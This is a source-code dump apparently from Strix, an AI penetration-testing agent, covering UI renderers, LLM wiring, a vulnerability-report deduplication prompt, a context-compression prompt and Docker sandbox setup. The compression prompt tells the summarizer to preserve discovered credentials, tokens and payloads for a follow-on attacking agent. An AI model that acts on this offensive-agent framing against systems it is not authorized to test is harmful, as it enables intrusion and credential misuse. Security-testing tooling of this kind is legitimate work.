    css_classes: ClassVar[list[str]] = ["tool-call", "web-search-tool"]

    @classmethod
    def render(cls, tool_data: dict[str, Any]) -> Static:
        args = tool_data.get("args", {})
        query = args.get("query", "")

        text = Text()
        text.append("🌐 ")
        text.append("Searching the web...", style="bold #60a5fa")

        if query:
            text.append("\n  ")
            text.append(query, style="dim")

        css_classes = cls.get_css_classes("completed")
        return Static(text, classes=css_classes)
```

## File: `strix/interface/tool_components/__init__.py`
```python
from . import (
    agent_message_renderer,
    agents_graph_renderer,
    browser_renderer,
    file_edit_renderer,
    finish_renderer,
    notes_renderer,
    proxy_renderer,
    python_renderer,
    reporting_renderer,
    scan_info_renderer,
    terminal_renderer,
    thinking_renderer,
    todo_renderer,
    user_message_renderer,
    web_search_renderer,
)
from .base_renderer import BaseToolRenderer
from .registry import ToolTUIRegistry, get_tool_renderer, register_tool_renderer, render_tool_widget


__all__ = [
    "BaseToolRenderer",
    "ToolTUIRegistry",
    "agent_message_renderer",
    "agents_graph_renderer",
    "browser_renderer",
    "file_edit_renderer",
    "finish_renderer",
    "get_tool_renderer",
    "notes_renderer",
    "proxy_renderer",
    "python_renderer",
    "register_tool_renderer",
    "render_tool_widget",
    "reporting_renderer",
    "scan_info_renderer",
    "terminal_renderer",
    "thinking_renderer",
    "todo_renderer",
    "user_message_renderer",
    "web_search_renderer",
]
```

## File: `strix/llm/config.py`
```python
from strix.config import Config
from strix.config.config import resolve_llm_config
from strix.llm.utils import resolve_strix_model


class LLMConfig:
    def __init__(
        self,
        model_name: str | None = None,
        enable_prompt_caching: bool = True,
        skills: list[str] | None = None,
        timeout: int | None = None,
        scan_mode: str = "deep",
        interactive: bool = False,
    ):
        resolved_model, self.api_key, self.api_base = resolve_llm_config()
        self.model_name = model_name or resolved_model

        if not self.model_name:
            raise ValueError("STRIX_LLM environment variable must be set and not empty")

        api_model, canonical = resolve_strix_model(self.model_name)
        self.litellm_model: str = api_model or self.model_name
        self.canonical_model: str = canonical or self.model_name

        self.enable_prompt_caching = enable_prompt_caching
        self.skills = skills or []

        self.timeout = timeout or int(Config.get("llm_timeout") or "300")

        self.scan_mode = scan_mode if scan_mode in ["quick", "standard", "deep"] else "deep"

        self.interactive = interactive
```

## File: `strix/llm/dedupe.py`
```python
import json
import logging
import re
from typing import Any

import litellm

from strix.config.config import resolve_llm_config
from strix.llm.utils import resolve_strix_model


logger = logging.getLogger(__name__)

DEDUPE_SYSTEM_PROMPT = """You are an expert vulnerability report deduplication judge.
Your task is to determine if a candidate vulnerability report describes the SAME vulnerability
as any existing report.

CRITICAL DEDUPLICATION RULES:

1. SAME VULNERABILITY means:
   - Same root cause (e.g., "missing input validation" not just "SQL injection")
   - Same affected component/endpoint/file (exact match or clear overlap)
   - Same exploitation method or attack vector
   - Would be fixed by the same code change/patch

2. NOT DUPLICATES if:
   - Different endpoints even with same vulnerability type (e.g., SQLi in /login vs /search)
   - Different parameters in same endpoint (e.g., XSS in 'name' vs 'comment' field)
   - Different root causes (e.g., stored XSS vs reflected XSS in same field)
   - Different severity levels due to different impact
   - One is authenticated, other is unauthenticated

3. ARE DUPLICATES even if:
   - Titles are worded differently
   - Descriptions have different level of detail
   - PoC uses different payloads but exploits same issue
   - One report is more thorough than another
   - Minor variations in technical analysis

COMPARISON GUIDELINES:
- Focus on the technical root cause, not surface-level similarities
- Same vulnerability type (SQLi, XSS) doesn't mean duplicate - location matters
- Consider the fix: would fixing one also fix the other?
- When uncertain, lean towards NOT duplicate

FIELDS TO ANALYZE:
- title, description: General vulnerability info
- target, endpoint, method: Exact location of vulnerability
- technical_analysis: Root cause details
- poc_description: How it's exploited
- impact: What damage it can cause

YOU MUST RESPOND WITH EXACTLY THIS XML FORMAT AND NOTHING ELSE:

<dedupe_result>
<is_duplicate>true</is_duplicate>
<duplicate_id>vuln-0001</duplicate_id>
<confidence>0.95</confidence>
<reason>Both reports describe SQL injection in /api/login via the username parameter</reason>
</dedupe_result>

OR if not a duplicate:

<dedupe_result>
<is_duplicate>false</is_duplicate>
<duplicate_id></duplicate_id>
<confidence>0.90</confidence>
<reason>Different endpoints: candidate is /api/search, existing is /api/login</reason>
</dedupe_result>

RULES:
- is_duplicate MUST be exactly "true" or "false" (lowercase)
- duplicate_id MUST be the exact ID from existing reports or empty if not duplicate
- confidence MUST be a decimal (your confidence level in the decision)
- reason MUST be a specific explanation mentioning endpoint/parameter/root cause
- DO NOT include any text outside the <dedupe_result> tags"""


def _prepare_report_for_comparison(report: dict[str, Any]) -> dict[str, Any]:
    relevant_fields = [
        "id",
        "title",
        "description",
        "impact",
        "target",
        "technical_analysis",
        "poc_description",
        "endpoint",
        "method",
    ]

    cleaned = {}
    for field in relevant_fields:
        if report.get(field):
            value = report[field]
            if isinstance(value, str) and len(value) > 8000:
                value = value[:8000] + "...[truncated]"
            cleaned[field] = value

    return cleaned


def _extract_xml_field(content: str, field: str) -> str:
    pattern = rf"<{field}>(.*?)</{field}>"
    match = re.search(pattern, content, re.DOTALL | re.IGNORECASE)
    if match:
        return match.group(1).strip()
    return ""


def _parse_dedupe_response(content: str) -> dict[str, Any]:
    result_match = re.search(
        r"<dedupe_result>(.*?)</dedupe_result>", content, re.DOTALL | re.IGNORECASE
    )

    if not result_match:
        logger.warning(f"No <dedupe_result> block found in response: {content[:500]}")
        raise ValueError("No <dedupe_result> block found in response")

    result_content = result_match.group(1)

    is_duplicate_str = _extract_xml_field(result_content, "is_duplicate")
    duplicate_id = _extract_xml_field(result_content, "duplicate_id")
    confidence_str = _extract_xml_field(result_content, "confidence")
    reason = _extract_xml_field(result_content, "reason")

    is_duplicate = is_duplicate_str.lower() == "true"

    try:
        confidence = float(confidence_str) if confidence_str else 0.0
    except ValueError:
        confidence = 0.0

    return {
        "is_duplicate": is_duplicate,
        "duplicate_id": duplicate_id[:64] if duplicate_id else "",
        "confidence": confidence,
        "reason": reason[:500] if reason else "",
    }


def check_duplicate(
    candidate: dict[str, Any], existing_reports: list[dict[str, Any]]
) -> dict[str, Any]:
    if not existing_reports:
        return {
            "is_duplicate": False,
            "duplicate_id": "",
            "confidence": 1.0,
            "reason": "No existing reports to compare against",
        }

    try:
        candidate_cleaned = _prepare_report_for_comparison(candidate)
        existing_cleaned = [_prepare_report_for_comparison(r) for r in existing_reports]

        comparison_data = {"candidate": candidate_cleaned, "existing_reports": existing_cleaned}

        model_name, api_key, api_base = resolve_llm_config()
        litellm_model, _ = resolve_strix_model(model_name)
        litellm_model = litellm_model or model_name

        messages = [
            {"role": "system", "content": DEDUPE_SYSTEM_PROMPT},
            {
                "role": "user",
                "content": (
                    f"Compare this candidate vulnerability against existing reports:\n\n"
                    f"{json.dumps(comparison_data, indent=2)}\n\n"
                    f"Respond with ONLY the <dedupe_result> XML block."
                ),
            },
        ]

        completion_kwargs: dict[str, Any] = {
            "model": litellm_model,
            "messages": messages,
            "timeout": 120,
        }
        if api_key:
            completion_kwargs["api_key"] = api_key
        if api_base:
            completion_kwargs["api_base"] = api_base

        response = litellm.completion(**completion_kwargs)

        content = response.choices[0].message.content
        if not content:
            return {
                "is_duplicate": False,
                "duplicate_id": "",
                "confidence": 0.0,
                "reason": "Empty response from LLM",
            }

        result = _parse_dedupe_response(content)

        logger.info(
            f"Deduplication check: is_duplicate={result['is_duplicate']}, "
            f"confidence={result['confidence']}, reason={result['reason'][:100]}"
        )

    except Exception as e:
        logger.exception("Error during vulnerability deduplication check")
        return {
            "is_duplicate": False,
            "duplicate_id": "",
            "confidence": 0.0,
            "reason": f"Deduplication check failed: {e}",
            "error": str(e),
        }
    else:
        return result
```

## File: `strix/llm/llm.py`
```python
import asyncio
from collections.abc import AsyncIterator
from dataclasses import dataclass
from typing import Any

import litellm
from jinja2 import Environment, FileSystemLoader, select_autoescape
from litellm import acompletion, completion_cost, stream_chunk_builder, supports_reasoning
from litellm.utils import supports_prompt_caching, supports_vision

from strix.config import Config
from strix.llm.config import LLMConfig
from strix.llm.memory_compressor import MemoryCompressor
from strix.llm.utils import (
    _truncate_to_first_function,
    fix_incomplete_tool_call,
    normalize_tool_format,
    parse_tool_invocations,
)
from strix.skills import load_skills
from strix.tools import get_tools_prompt
from strix.utils.resource_paths import get_strix_resource_path


litellm.drop_params = True
litellm.modify_params = True


class LLMRequestFailedError(Exception):
    def __init__(self, message: str, details: str | None = None):
        super().__init__(message)
        self.message = message
        self.details = details


@dataclass
class LLMResponse:
    content: str
    tool_invocations: list[dict[str, Any]] | None = None
    thinking_blocks: list[dict[str, Any]] | None = None


@dataclass
class RequestStats:
    input_tokens: int = 0
    output_tokens: int = 0
    cached_tokens: int = 0
    cost: float = 0.0
    requests: int = 0

    def to_dict(self) -> dict[str, int | float]:
        return {
            "input_tokens": self.input_tokens,
            "output_tokens": self.output_tokens,
            "cached_tokens": self.cached_tokens,
            "cost": round(self.cost, 4),
            "requests": self.requests,
        }


class LLM:
    def __init__(self, config: LLMConfig, agent_name: str | None = None):
        self.config = config
        self.agent_name = agent_name
        self.agent_id: str | None = None
        self._total_stats = RequestStats()
        self.memory_compressor = MemoryCompressor(model_name=config.litellm_model)
        self.system_prompt = self._load_system_prompt(agent_name)

        reasoning = Config.get("strix_reasoning_effort")
        if reasoning:
            self._reasoning_effort = reasoning
        elif config.scan_mode == "quick":
            self._reasoning_effort = "medium"
        else:
            self._reasoning_effort = "high"

    def _load_system_prompt(self, agent_name: str | None) -> str:
        if not agent_name:
            return ""

        try:
            prompt_dir = get_strix_resource_path("agents", agent_name)
            skills_dir = get_strix_resource_path("skills")
            env = Environment(
                loader=FileSystemLoader([prompt_dir, skills_dir]),
                autoescape=select_autoescape(enabled_extensions=(), default_for_string=False),
            )

            skills_to_load = [
                *list(self.config.skills or []),
                f"scan_modes/{self.config.scan_mode}",
            ]
            skill_content = load_skills(skills_to_load)
            env.globals["get_skill"] = lambda name: skill_content.get(name, "")

            result = env.get_template("system_prompt.jinja").render(
                get_tools_prompt=get_tools_prompt,
                loaded_skill_names=list(skill_content.keys()),
                interactive=self.config.interactive,
                **skill_content,
            )
            return str(result)
        except Exception:  # noqa: BLE001
            return ""

    def set_agent_identity(self, agent_name: str | None, agent_id: str | None) -> None:
        if agent_name:
            self.agent_name = agent_name
        if agent_id:
            self.agent_id = agent_id

    async def generate(
        self, conversation_history: list[dict[str, Any]]
    ) -> AsyncIterator[LLMResponse]:
        messages = self._prepare_messages(conversation_history)
        max_retries = int(Config.get("strix_llm_max_retries") or "5")

        for attempt in range(max_retries + 1):
            try:
                async for response in self._stream(messages):
                    yield response
                return  # noqa: TRY300
            except Exception as e:  # noqa: BLE001
                if attempt >= max_retries or not self._should_retry(e):
                    self._raise_error(e)
                wait = min(10, 2 * (2**attempt))
                await asyncio.sleep(wait)

    async def _stream(self, messages: list[dict[str, Any]]) -> AsyncIterator[LLMResponse]:
        accumulated = ""
        chunks: list[Any] = []
        done_streaming = 0

        self._total_stats.requests += 1
        response = await acompletion(**self._build_completion_args(messages), stream=True)

        async for chunk in response:
            chunks.append(chunk)
            if done_streaming:
                done_streaming += 1
                if getattr(chunk, "usage", None) or done_streaming > 5:
                    break
                continue
            delta = self._get_chunk_content(chunk)
            if delta:
                accumulated += delta
                if "</function>" in accumulated or "</invoke>" in accumulated:
                    end_tag = "</function>" if "</function>" in accumulated else "</invoke>"
                    pos = accumulated.find(end_tag)
                    accumulated = accumulated[: pos + len(end_tag)]
                    yield LLMResponse(content=accumulated)
                    done_streaming = 1
                    continue
                yield LLMResponse(content=accumulated)

        if chunks:
            self._update_usage_stats(stream_chunk_builder(chunks))

        accumulated = normalize_tool_format(accumulated)
        accumulated = fix_incomplete_tool_call(_truncate_to_first_function(accumulated))
        yield LLMResponse(
            content=accumulated,
            tool_invocations=parse_tool_invocations(accumulated),
            thinking_blocks=self._extract_thinking(chunks),
        )

    def _prepare_messages(self, conversation_history: list[dict[str, Any]]) -> list[dict[str, Any]]:
        messages = [{"role": "system", "content": self.system_prompt}]

        if self.agent_name:
            messages.append(
                {
                    "role": "user",
                    "content": (
                        f"\n\n<agent_identity>\n"
                        f"<meta>Internal metadata: do not echo or reference.</meta>\n"
                        f"<agent_name>{self.agent_name}</agent_name>\n"
                        f"<agent_id>{self.agent_id}</agent_id>\n"
                        f"</agent_identity>\n\n"
                    ),
                }
            )

        compressed = list(self.memory_compressor.compress_history(conversation_history))
        conversation_history.clear()
        conversation_history.extend(compressed)
        messages.extend(compressed)

        if messages[-1].get("role") == "assistant" and not self.config.interactive:
            messages.append({"role": "user", "content": "<meta>Continue the task.</meta>"})

        if self._is_anthropic() and self.config.enable_prompt_caching:
            messages = self._add_cache_control(messages)

        return messages

    def _build_completion_args(self, messages: list[dict[str, Any]]) -> dict[str, Any]:
        if not self._supports_vision():
            messages = self._strip_images(messages)

        args: dict[str, Any] = {
            "model": self.config.litellm_model,
            "messages": messages,
            "timeout": self.config.timeout,
            "stream_options": {"include_usage": True},
        }

        if self.config.api_key:
            args["api_key"] = self.config.api_key
        if self.config.api_base:
            args["api_base"] = self.config.api_base
        if self._supports_reasoning():
            args["reasoning_effort"] = self._reasoning_effort

        return args

    def _get_chunk_content(self, chunk: Any) -> str:
        if chunk.choices and hasattr(chunk.choices[0], "delta"):
            return getattr(chunk.choices[0].delta, "content", "") or ""
        return ""

    def _extract_thinking(self, chunks: list[Any]) -> list[dict[str, Any]] | None:
        if not chunks or not self._supports_reasoning():
            return None
        try:
            resp = stream_chunk_builder(chunks)
            if resp.choices and hasattr(resp.choices[0].message, "thinking_blocks"):
                blocks: list[dict[str, Any]] = resp.choices[0].message.thinking_blocks
                return blocks
        except Exception:  # noqa: BLE001, S110  # nosec B110
            pass
        return None

    def _update_usage_stats(self, response: Any) -> None:
        try:
            if hasattr(response, "usage") and response.usage:
                input_tokens = getattr(response.usage, "prompt_tokens", 0) or 0
                output_tokens = getattr(response.usage, "completion_tokens", 0) or 0

                cached_tokens = 0
                if hasattr(response.usage, "prompt_tokens_details"):
                    prompt_details = response.usage.prompt_tokens_details
                    if hasattr(prompt_details, "cached_tokens"):
                        cached_tokens = prompt_details.cached_tokens or 0

                cost = self._extract_cost(response)
            else:
                input_tokens = 0
                output_tokens = 0
                cached_tokens = 0
                cost = 0.0

            self._total_stats.input_tokens += input_tokens
            self._total_stats.output_tokens += output_tokens
            self._total_stats.cached_tokens += cached_tokens
            self._total_stats.cost += cost

        except Exception:  # noqa: BLE001, S110  # nosec B110
            pass

    def _extract_cost(self, response: Any) -> float:
        if hasattr(response, "usage") and response.usage:
            direct_cost = getattr(response.usage, "cost", None)
            if direct_cost is not None:
                return float(direct_cost)
        try:
            if hasattr(response, "_hidden_params"):
                response._hidden_params.pop("custom_llm_provider", None)
            return completion_cost(response, model=self.config.canonical_model) or 0.0
        except Exception:  # noqa: BLE001
            return 0.0

    def _should_retry(self, e: Exception) -> bool:
        code = getattr(e, "status_code", None) or getattr(
            getattr(e, "response", None), "status_code", None
        )
        return code is None or litellm._should_retry(code)

    def _raise_error(self, e: Exception) -> None:
        from strix.telemetry import posthog

        posthog.error("llm_error", type(e).__name__)
        raise LLMRequestFailedError(f"LLM request failed: {type(e).__name__}", str(e)) from e

    def _is_anthropic(self) -> bool:
        if not self.config.model_name:
            return False
        return any(p in self.config.model_name.lower() for p in ["anthropic/", "claude"])

    def _supports_vision(self) -> bool:
        try:
            return bool(supports_vision(model=self.config.canonical_model))
        except Exception:  # noqa: BLE001
            return False

    def _supports_reasoning(self) -> bool:
        try:
            return bool(supports_reasoning(model=self.config.canonical_model))
        except Exception:  # noqa: BLE001
            return False

    def _strip_images(self, messages: list[dict[str, Any]]) -> list[dict[str, Any]]:
        result = []
        for msg in messages:
            content = msg.get("content")
            if isinstance(content, list):
                text_parts = []
                for item in content:
                    if isinstance(item, dict) and item.get("type") == "text":
                        text_parts.append(item.get("text", ""))
                    elif isinstance(item, dict) and item.get("type") == "image_url":
                        text_parts.append("[Image removed - model doesn't support vision]")
                result.append({**msg, "content": "\n".join(text_parts)})
            else:
                result.append(msg)
        return result

    def _add_cache_control(self, messages: list[dict[str, Any]]) -> list[dict[str, Any]]:
        if not messages or not supports_prompt_caching(self.config.canonical_model):
            return messages

        result = list(messages)

        if result[0].get("role") == "system":
            content = result[0]["content"]
            result[0] = {
                **result[0],
                "content": [
                    {"type": "text", "text": content, "cache_control": {"type": "ephemeral"}}
                ]
                if isinstance(content, str)
                else content,
            }
        return result
```

## File: `strix/llm/memory_compressor.py`
```python
import logging
from typing import Any

import litellm

from strix.config.config import Config, resolve_llm_config


logger = logging.getLogger(__name__)


MAX_TOTAL_TOKENS = 100_000
MIN_RECENT_MESSAGES = 15

SUMMARY_PROMPT_TEMPLATE = """You are an agent performing context
condensation for a security agent. Your job is to compress scan data while preserving
ALL operationally critical information for continuing the security assessment.

CRITICAL ELEMENTS TO PRESERVE:
- Discovered vulnerabilities and potential attack vectors
- Scan results and tool outputs (compressed but maintaining key findings)
- Access credentials, tokens, or authentication details found
- System architecture insights and potential weak points
- Progress made in the assessment
- Failed attempts and dead ends (to avoid duplication)
- Any decisions made about the testing approach

COMPRESSION GUIDELINES:
- Preserve exact technical details (URLs, paths, parameters, payloads)
- Summarize verbose tool outputs while keeping critical findings
- Maintain version numbers, specific technologies identified
- Keep exact error messages that might indicate vulnerabilities
- Compress repetitive or similar findings into consolidated form

Remember: Another security agent will use this summary to continue the assessment.
They must be able to pick up exactly where you left off without losing any
operational advantage or context needed to find vulnerabilities.

CONVERSATION SEGMENT TO SUMMARIZE:
{conversation}

Provide a technically precise summary that preserves all operational security context while
keeping the summary concise and to the point."""


def _count_tokens(text: str, model: str) -> int:
    try:
        count = litellm.token_counter(model=model, text=text)
        return int(count)
    except Exception:
        logger.exception("Failed to count tokens")
        return len(text) // 4  # Rough estimate


def _get_message_tokens(msg: dict[str, Any], model: str) -> int:
    content = msg.get("content", "")
    if isinstance(content, str):
        return _count_tokens(content, model)
    if isinstance(content, list):
        return sum(
            _count_tokens(item.get("text", ""), model)
            for item in content
            if isinstance(item, dict) and item.get("type") == "text"
        )
    return 0


def _extract_message_text(msg: dict[str, Any]) -> str:
    content = msg.get("content", "")
    if isinstance(content, str):
        return content

    if isinstance(content, list):
        parts = []
        for item in content:
            if isinstance(item, dict):
                if item.get("type") == "text":
                    parts.append(item.get("text", ""))
                elif item.get("type") == "image_url":
                    parts.append("[IMAGE]")
        return " ".join(parts)

    return str(content)


def _summarize_messages(
    messages: list[dict[str, Any]],
    model: str,
    timeout: int = 30,
) -> dict[str, Any]:
    if not messages:
        empty_summary = "<context_summary message_count='0'>{text}</context_summary>"
        return {
            "role": "user",
            "content": empty_summary.format(text="No messages to summarize"),
        }

    formatted = []
    for msg in messages:
        role = msg.get("role", "unknown")
        text = _extract_message_text(msg)
        formatted.append(f"{role}: {text}")

    conversation = "\n".join(formatted)
    prompt = SUMMARY_PROMPT_TEMPLATE.format(conversation=conversation)

    _, api_key, api_base = resolve_llm_config()

    try:
        completion_args: dict[str, Any] = {
            "model": model,
            "messages": [{"role": "user", "content": prompt}],
            "timeout": timeout,
        }
        if api_key:
            completion_args["api_key"] = api_key
        if api_base:
            completion_args["api_base"] = api_base

        response = litellm.completion(**completion_args)
        summary = response.choices[0].message.content or ""
        if not summary.strip():
            return messages[0]
        summary_msg = "<context_summary message_count='{count}'>{text}</context_summary>"
        return {
            "role": "user",
            "content": summary_msg.format(count=len(messages), text=summary),
        }
    except Exception:
        logger.exception("Failed to summarize messages")
        return messages[0]


def _handle_images(messages: list[dict[str, Any]], max_images: int) -> None:
    image_count = 0
    for msg in reversed(messages):
        content = msg.get("content", [])
        if isinstance(content, list):
            for item in content:
                if isinstance(item, dict) and item.get("type") == "image_url":
                    if image_count >= max_images:
                        item.update(
                            {
                                "type": "text",
                                "text": "[Previously attached image removed to preserve context]",
                            }
                        )
                    else:
                        image_count += 1


class MemoryCompressor:
    def __init__(
        self,
        max_images: int = 3,
        model_name: str | None = None,
        timeout: int | None = None,
    ):
        self.max_images = max_images
        self.model_name = model_name or Config.get("strix_llm")
        self.timeout = timeout or int(Config.get("strix_memory_compressor_timeout") or "120")

        if not self.model_name:
            raise ValueError("STRIX_LLM environment variable must be set and not empty")

    def compress_history(
        self,
        messages: list[dict[str, Any]],
    ) -> list[dict[str, Any]]:
        """Compress conversation history to stay within token limits.

        Strategy:
        1. Handle image limits first
        2. Keep all system messages
        3. Keep minimum recent messages
        4. Summarize older messages when total tokens exceed limit

        The compression preserves:
        - All system messages unchanged
        - Most recent messages intact
        - Critical security context in summaries
        - Recent images for visual context
        - Technical details and findings
        """
        if not messages:
            return messages

        _handle_images(messages, self.max_images)

        system_msgs = []
        regular_msgs = []
        for msg in messages:
            if msg.get("role") == "system":
                system_msgs.append(msg)
            else:
                regular_msgs.append(msg)

        recent_msgs = regular_msgs[-MIN_RECENT_MESSAGES:]
        old_msgs = regular_msgs[:-MIN_RECENT_MESSAGES]

        # Type assertion since we ensure model_name is not None in __init__
        model_name: str = self.model_name  # type: ignore[assignment]

        total_tokens = sum(
            _get_message_tokens(msg, model_name) for msg in system_msgs + regular_msgs
        )

        if total_tokens <= MAX_TOTAL_TOKENS * 0.9:
            return messages

        compressed = []
        chunk_size = 10
        for i in range(0, len(old_msgs), chunk_size):
            chunk = old_msgs[i : i + chunk_size]
            summary = _summarize_messages(chunk, model_name, self.timeout)
            if summary:
                compressed.append(summary)

        return system_msgs + compressed + recent_msgs
```

## File: `strix/llm/utils.py`
```python
import html
import re
from typing import Any


_INVOKE_OPEN = re.compile(r'<invoke\s+name=["\']([^"\']+)["\']>')
_PARAM_NAME_ATTR = re.compile(r'<parameter\s+name=["\']([^"\']+)["\']>')
_FUNCTION_CALLS_TAG = re.compile(r"</?function_calls>")
_STRIP_TAG_QUOTES = re.compile(r"<(function|parameter)\s*=\s*([^>]*?)>")


def normalize_tool_format(content: str) -> str:
    """Convert alternative tool-call XML formats to the expected one.

    Handles:
      <function_calls>...</function_calls>  → stripped
      <invoke name="X">                     → <function=X>
      <parameter name="X">                  → <parameter=X>
      </invoke>                             → </function>
      <function="X">                        → <function=X>
      <parameter="X">                       → <parameter=X>
    """
    if "<invoke" in content or "<function_calls" in content:
        content = _FUNCTION_CALLS_TAG.sub("", content)
        content = _INVOKE_OPEN.sub(r"<function=\1>", content)
        content = _PARAM_NAME_ATTR.sub(r"<parameter=\1>", content)
        content = content.replace("</invoke>", "</function>")

    return _STRIP_TAG_QUOTES.sub(
        lambda m: f"<{m.group(1)}={m.group(2).strip().strip(chr(34) + chr(39))}>", content
    )


STRIX_MODEL_MAP: dict[str, str] = {
    "claude-sonnet-4.6": "anthropic/claude-sonnet-4-6",
    "claude-opus-4.6": "anthropic/claude-opus-4-6",
    "gpt-5.2": "openai/gpt-5.2",
    "gpt-5.1": "openai/gpt-5.1",
    "gpt-5": "openai/gpt-5",
    "gemini-3-pro-preview": "gemini/gemini-3-pro-preview",
    "gemini-3-flash-preview": "gemini/gemini-3-flash-preview",
    "glm-5": "openrouter/z-ai/glm-5",
    "glm-4.7": "openrouter/z-ai/glm-4.7",
}


def resolve_strix_model(model_name: str | None) -> tuple[str | None, str | None]:
    """Resolve a strix/ model into names for API calls and capability lookups.

    Returns (api_model, canonical_model):
    - api_model: openai/<base> for API calls (Strix API is OpenAI-compatible)
    - canonical_model: actual provider model name for litellm capability lookups
    Non-strix models return the same name for both.
    """
    if not model_name or not model_name.startswith("strix/"):
        return model_name, model_name

    base_model = model_name[6:]
    api_model = f"openai/{base_model}"
    canonical_model = STRIX_MODEL_MAP.get(base_model, api_model)
    return api_model, canonical_model


def _truncate_to_first_function(content: str) -> str:
    if not content:
        return content

    function_starts = [
        match.start() for match in re.finditer(r"<function=|<invoke\s+name=", content)
    ]

    if len(function_starts) >= 2:
        second_function_start = function_starts[1]

        return content[:second_function_start].rstrip()

    return content


def parse_tool_invocations(content: str) -> list[dict[str, Any]] | None:
    content = normalize_tool_format(content)
    content = fix_incomplete_tool_call(content)

    tool_invocations: list[dict[str, Any]] = []

    fn_regex_pattern = r"<function=([^>]+)>\n?(.*?)</function>"
    fn_param_regex_pattern = r"<parameter=([^>]+)>(.*?)</parameter>"

    fn_matches = re.finditer(fn_regex_pattern, content, re.DOTALL)

    for fn_match in fn_matches:
        fn_name = fn_match.group(1)
        fn_body = fn_match.group(2)

        param_matches = re.finditer(fn_param_regex_pattern, fn_body, re.DOTALL)

        args = {}
        for param_match in param_matches:
            param_name = param_match.group(1)
            param_value = param_match.group(2).strip()

            param_value = html.unescape(param_value)
            args[param_name] = param_value

        tool_invocations.append({"toolName": fn_name, "args": args})

    return tool_invocations if tool_invocations else None


def fix_incomplete_tool_call(content: str) -> str:
    """Fix incomplete tool calls by adding missing closing tag.

    Handles both ``<function=…>`` and ``<invoke name="…">`` formats.
    """
    has_open = "<function=" in content or "<invoke " in content
    count_open = content.count("<function=") + content.count("<invoke ")
    has_close = "</function>" in content or "</invoke>" in content
    if has_open and count_open == 1 and not has_close:
        content = content.rstrip()
        content = content + "function>" if content.endswith("</") else content + "\n</function>"
    return content


def format_tool_call(tool_name: str, args: dict[str, Any]) -> str:
    xml_parts = [f"<function={tool_name}>"]

    for key, value in args.items():
        xml_parts.append(f"<parameter={key}>{value}</parameter>")

    xml_parts.append("</function>")

    return "\n".join(xml_parts)


def clean_content(content: str) -> str:
    if not content:
        return ""

    content = normalize_tool_format(content)
    content = fix_incomplete_tool_call(content)

    tool_pattern = r"<function=[^>]+>.*?</function>"
    cleaned = re.sub(tool_pattern, "", content, flags=re.DOTALL)

    incomplete_tool_pattern = r"<function=[^>]+>.*$"
    cleaned = re.sub(incomplete_tool_pattern, "", cleaned, flags=re.DOTALL)

    partial_tag_pattern = r"<f(?:u(?:n(?:c(?:t(?:i(?:o(?:n(?:=(?:[^>]*)?)?)?)?)?)?)?)?)?$"
    cleaned = re.sub(partial_tag_pattern, "", cleaned)

    hidden_xml_patterns = [
        r"<inter_agent_message>.*?</inter_agent_message>",
        r"<agent_completion_report>.*?</agent_completion_report>",
    ]
    for pattern in hidden_xml_patterns:
        cleaned = re.sub(pattern, "", cleaned, flags=re.DOTALL | re.IGNORECASE)

    cleaned = re.sub(r"\n\s*\n", "\n\n", cleaned)

    return cleaned.strip()
```

## File: `strix/llm/__init__.py`
```python
import logging
import warnings

import litellm

from .config import LLMConfig
from .llm import LLM, LLMRequestFailedError


__all__ = [
    "LLM",
    "LLMConfig",
    "LLMRequestFailedError",
]

litellm._logging._disable_debugging()
logging.getLogger("asyncio").setLevel(logging.CRITICAL)
logging.getLogger("asyncio").propagate = False
warnings.filterwarnings("ignore", category=RuntimeWarning, module="asyncio")
```

## File: `strix/runtime/docker_runtime.py`
```python
import contextlib
import os
import secrets
import socket
import time
from pathlib import Path
from typing import cast

import docker
import httpx
from docker.errors import DockerException, ImageNotFound, NotFound
from docker.models.containers import Container
from requests.exceptions import ConnectionError as RequestsConnectionError
from requests.exceptions import Timeout as RequestsTimeout

from strix.config import Config

from . import SandboxInitializationError
from .runtime import AbstractRuntime, SandboxInfo


HOST_GATEWAY_HOSTNAME = "host.docker.internal"
DOCKER_TIMEOUT = 60
CONTAINER_TOOL_SERVER_PORT = 48081
CONTAINER_CAIDO_PORT = 48080


class DockerRuntime(AbstractRuntime):
    def __init__(self) -> None:
        try:
            self.client = docker.from_env(timeout=DOCKER_TIMEOUT)
        except (DockerException, RequestsConnectionError, RequestsTimeout) as e:
            raise SandboxInitializationError(
                "Docker is not available",
                "Please ensure Docker Desktop is installed and running.",
            ) from e

        self._scan_container: Container | None = None
        self._tool_server_port: int | None = None
        self._tool_server_token: str | None = None
        self._caido_port: int | None = None

    def _find_available_port(self) -> int:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.bind(("", 0))
            return cast("int", s.getsockname()[1])

    def _get_scan_id(self, agent_id: str) -> str:
        try:
            from strix.telemetry.tracer import get_global_tracer

            tracer = get_global_tracer()
            if tracer and tracer.scan_config:
                return str(tracer.scan_config.get("scan_id", "default-scan"))
        except (ImportError, AttributeError):
            pass
        return f"scan-{agent_id.split('-')[0]}"

    def _verify_image_available(self, image_name: str, max_retries: int = 3) -> None:
        for attempt in range(max_retries):
            try:
                image = self.client.images.get(image_name)
                if not image.id or not image.attrs:
                    raise ImageNotFound(f"Image {image_name} metadata incomplete")  # noqa: TRY301
            except (ImageNotFound, DockerException):
                if attempt == max_retries - 1:
                    raise
                time.sleep(2**attempt)
            else:
                return

    def _recover_container_state(self, container: Container) -> None:
        for env_var in container.attrs["Config"]["Env"]:
            if env_var.startswith("TOOL_SERVER_TOKEN="):
                self._tool_server_token = env_var.split("=", 1)[1]
                break

        port_bindings = container.attrs.get("NetworkSettings", {}).get("Ports", {})
        port_key = f"{CONTAINER_TOOL_SERVER_PORT}/tcp"
        if port_bindings.get(port_key):
            self._tool_server_port = int(port_bindings[port_key][0]["HostPort"])

        caido_port_key = f"{CONTAINER_CAIDO_PORT}/tcp"
        if port_bindings.get(caido_port_key):
            self._caido_port = int(port_bindings[caido_port_key][0]["HostPort"])

    def _wait_for_tool_server(self, max_retries: int = 30, timeout: int = 5) -> None:
        host = self._resolve_docker_host()
        health_url = f"http://{host}:{self._tool_server_port}/health"

        time.sleep(5)

        for attempt in range(max_retries):
            try:
                with httpx.Client(trust_env=False, timeout=timeout) as client:
                    response = client.get(health_url)
                    if response.status_code == 200:
                        data = response.json()
                        if data.get("status") == "healthy":
                            return
            except (httpx.ConnectError, httpx.TimeoutException, httpx.RequestError):
                pass

            time.sleep(min(2**attempt * 0.5, 5))

        raise SandboxInitializationError(
            "Tool server failed to start",
            "Container initialization timed out. Please try again.",
        )

    def _create_container(self, scan_id: str, max_retries: int = 2) -> Container:
